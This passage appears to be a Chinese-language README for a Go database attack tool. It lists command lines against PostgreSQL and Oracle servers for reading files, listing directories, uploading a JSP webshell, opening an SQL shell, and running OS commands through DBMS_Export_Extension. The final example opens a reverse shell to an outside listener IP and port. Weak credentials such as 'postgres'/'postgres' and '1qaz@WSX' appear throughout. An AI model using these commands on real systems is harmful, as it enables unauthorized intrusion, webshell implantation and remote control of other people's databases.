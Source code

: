 ### 循环文件读取(方法二)
```shell
go run main.go -postgre -ruser  "postgres" -pwd "postgres" -rhost 192.168.111.139 -rport "5432" -read2 -console
```
![image.png](https://cdn.nlark.com/yuque/0/2023/png/22017589/1673161442923-657ff922-0990-4071-84ad-0a1e3cab1409.png#averageHue=%23302f2e&clientId=u67188ca8-ad41-4&from=paste&height=598&id=uccac852c&name=image.png&originHeight=897&originWidth=2474&originalType=binary&ratio=1&rotation=0&showTitle=false&size=230880&status=done&style=none&taskId=u236bbaee-3851-40d5-ae81-aa2c5d75e03&title=&width=1649.3333333333333)
### 列目录
```shell
go run main.go -postgre -ruser  "postgres" -pwd "postgres" -rhost 192.168.111.139 -rport "5432" -list -file "./"
```
![image.png](https://cdn.nlark.com/yuque/0/2023/png/22017589/1673161496940-22009d1c-0290-4448-8cdf-ae6b161753d6.png#averageHue=%232c2b2b&clientId=u67188ca8-ad41-4&from=paste&height=661&id=u894f9629&name=image.png&originHeight=991&originWidth=2314&originalType=binary&ratio=1&rotation=0&showTitle=false&size=134912&status=done&style=none&taskId=u2101e801-9ce2-46f9-9eac-8eb0ca8d57d&title=&width=1542.6666666666667)
### 循环列目录
```shell
go run main.go -postgre -ruser  "postgres" -pwd "postgres" -rhost 192.168.111.139 -rport "5432" -list -console
```
![image.png](https://cdn.nlark.com/yuque/0/2023/png/22017589/1673161555557-09ef072c-6942-4851-9d13-98c41f0551e1.png#averageHue=%232c2b2b&clientId=u67188ca8-ad41-4&from=paste&height=747&id=u3fe96a4b&name=image.png&originHeight=1121&originWidth=2302&originalType=binary&ratio=1&rotation=0&showTitle=false&size=151516&status=done&style=none&taskId=udee2f48a-0781-4199-8b99-3ef9c866556&title=&width=1534.6666666666667)
### 上传webshell
```shell
go run main.go -postgre -ruser  "postgres" -pwd "postgres" -rhost 192.168.111.139 -rport "5432" -write -uploadpath "/tmp/shell.jsp" -e "jsp"
```
![image.png](https://cdn.nlark.com/yuque/0/2023/png/22017589/1673161636103-34acc8f7-e097-4452-8e7c-4de12bbc4d70.png#averageHue=%232e2d2c&clientId=u67188ca8-ad41-4&from=paste&height=222&id=uaa70f9de&name=image.png&originHeight=333&originWidth=2230&originalType=binary&ratio=1&rotation=0&showTitle=false&size=95815&status=done&style=none&taskId=u71252157-f05e-4b2b-9209-e57a8af5b27&title=&width=1486.6666666666667)
## Oracle
使用之前需要安装oracle客户端
Windows下安装方法
解压下载的instantclient_21_8压缩包，将解压路径添加到系统变量path
![image.png](https://cdn.nlark.com/yuque/0/2023/png/22017589/1673773289868-162dccdc-7921-411e-af11-64544ccbef02.png#averageHue=%23f4f3f3&clientId=u5d6a75f5-9ab0-4&from=paste&height=517&id=u5303451a&name=image.png&originHeight=775&originWidth=805&originalType=binary&ratio=1&rotation=0&showTitle=false&size=43600&status=done&style=none&taskId=u2f1ad378-696d-4c46-8e50-b6e9c1fd3ec&title=&width=536.6666666666666)
Linux下正常支持Redis、Mysql、SQL Server、Postgresql，如想使用Oracle功能需要安装Oracle客户端驱动。在Kali下所有功能可完美运行
### 获取sql shell
```shell
go run .\main.go -oracle -rhost 192.168.111.139 -rport 1521 -ruser test -pwd "1qaz@WSX" -sid helowin -cli
```
![image.png](https://cdn.nlark.com/yuque/0/2023/png/22017589/1673429766059-8e2694dc-45e6-4831-bf09-46e47c1fde9e.png#averageHue=%232d2c2c&clientId=uc11344e2-a856-4&from=paste&height=244&id=u40101f1d&name=image.png&originHeight=366&originWidth=2338&originalType=binary&ratio=1&rotation=0&showTitle=false&size=87190&status=done&style=none&taskId=u7a07727f-1939-468d-944c-6c7385e2735&title=&width=1558.6666666666667)
### DBMS_Export_Extention循环执行命令
```shell
go run .\main.go -oracle -rhost 192.168.111.139 -rport 1521 -ruser system -pwd "1qaz@WSX" -sid lhr10g -dee -console
```
![image.png](https://cdn.nlark.com/yuque/0/2023/png/22017589/1673623715612-8428c8a4-9c1a-4efe-be9a-cafe5f1fd94d.png#averageHue=%232c2c2b&clientId=ucbc34b69-4b9d-4&from=paste&height=331&id=u80060969&name=image.png&originHeight=496&originWidth=2300&originalType=binary&ratio=1&rotation=0&showTitle=false&size=91240&status=done&style=none&taskId=u687dcb39-23a8-4567-af69-305fdd630e8&title=&width=1533.3333333333333)
### DBMS_Export_Extention执行单条命令
```shell
go run .\main.go -oracle -rhost 192.168.111.139 -rport 1521 -ruser system -pwd "1qaz@WSX" -sid lhr10g -dee -docmd -cmd "whoami"
```
![image.png](https://cdn.nlark.com/yuque/0/2023/png/22017589/1673623778177-7653f045-c758-4026-a40a-092c35df1d8a.png#averageHue=%232d2c2c&clientId=ucbc34b69-4b9d-4&from=paste&height=192&id=u98a61877&name=image.png&originHeight=288&originWidth=2351&originalType=binary&ratio=1&rotation=0&showTitle=false&size=70891&status=done&style=none&taskId=uf0fb5e73-b82c-4db2-8bd3-d6425c7bf2c&title=&width=1567.3333333333333)
### DBMS_Export_Extention反弹shell
```shell
go run .\main.go -oracle -rhost 192.168.111.139 -rport 1521 -ruser system -pwd "1qaz@WSX" -sid lhr10g -lhost 175.178.233.198 -lport 7776 -dee -re
```
![image.png](https://cdn.nlark.com/yuque/0/2023/png/22017589/1673623842582-d0b94370-e3b0-49fa-ba62-47f8eb4d580e.png#averageHue=%232d2d2c&clientId=ucbc34b69-4b9d-4&from=paste&height=145&id=u7b0096c1&name=image.png&originHeight=218&originWidth=2245&originalType=binary&ratio=1&rotation=0&showTitle=false&size=62363&status=done&style=none&taskId=u9f895e81-de70-4f46-bec8-4efd8325a67&title=&width=1496.6666666666667)